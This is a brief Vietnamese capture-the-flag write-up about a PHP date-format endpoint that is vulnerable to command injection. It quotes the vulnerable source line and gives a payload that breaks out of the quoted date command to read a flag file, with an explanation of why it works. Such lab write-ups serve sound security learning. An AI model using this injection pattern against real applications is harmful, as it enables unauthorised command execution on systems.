





- Sử dụng burpsuite, tìm thấy 1 end point cho phép format ngày tháng

    
- Tìm thử nó trong file whitebox mà thử thách cung cấp
    

- Chatgpt detect vuln :v
    
- Khả năng cao là `command injection`

- Thử dùng burp repeater để tìm flag
    
- Payload ``'; echo `cat /flag` '`` :  
    1. Code cho ta biết thông tin:
        ```php
        $this->command = "date '+" . $format . "' 2>&1";
        ```
    2. Sau khi tiêm payload, code sẽ trở thành:
        ```php
        date '+<format>'; echo `cat /flag` '' 2>&1
        ```
        Dấu `'` đầu tiên sẽ kết thúc lệnh `date`, sau đó thực thi lệnh `cat /flag` 
    